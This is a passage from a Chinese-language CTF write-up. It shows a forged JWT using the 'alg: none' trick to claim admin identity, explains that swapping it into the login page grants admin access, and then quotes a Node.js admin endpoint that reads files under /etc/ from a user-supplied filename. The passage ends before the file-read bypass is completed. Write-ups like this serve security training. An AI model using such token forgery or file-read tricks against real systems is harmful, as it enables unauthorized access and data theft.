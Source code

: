 
**伪造的session：**

```json
encode:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6LTEsInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMzQ1NiJ9.

decode:
{
  "typ": "JWT",
  "alg": "none"
}
{
  "id": -1,
  "username": "admin",
  "password": "123456"
}
```

然后直接在login页面替换token，然后使用 **admin:123456** 直接登录
就能成为admin了

![img18](https://imgs-1258898244.cos.ap-chengdu.myqcloud.com/ctf/unctf/img/img18.png)


#### step4:

成为admin以后，就可以访问admin23333_interface这个接口了

看一波关键代码：

```js
if(req.session.username !== "admin"){
        return res.send("U Are N0t Admin")
    }
    if(req.query.name === undefined){
        return res.sendStatus(500)
    }
    else if(typeof(req.query.name) === "string"){
      
        if(req.query.name.startsWith('{') && req.query.name.endsWith('}')){
            req.query.name = JSON.parse(req.query.name)
    
            if(!/^key$/im.test(req.query.name.filename))return res.sendStatus(500);
            
    
           
        }
    }
    if(req.query.name.filename.length > 3){
        for(let c of req.query.name.filename){
            if(c !== "/" && c!=="."){
                filename += c
            }
        }
    }
    
    console.log(filename)
    
    var content = fs.readFileSync("/etc/"+filename)
    res.send(content)
```
